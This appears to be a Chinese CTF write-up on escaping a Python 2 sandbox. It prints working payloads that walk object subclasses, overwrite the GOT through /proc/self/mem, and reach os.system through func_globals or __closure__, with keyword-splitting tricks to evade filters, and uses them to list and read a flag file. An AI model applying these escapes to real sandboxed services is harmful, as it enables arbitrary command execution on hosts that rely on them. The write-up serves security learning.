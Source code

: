 ```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
我们可以通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 
获取题目源码，然后可以进一步分析

## 解决
三种方法
### 0x01
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 0x02
修改 got
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 0x03
间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
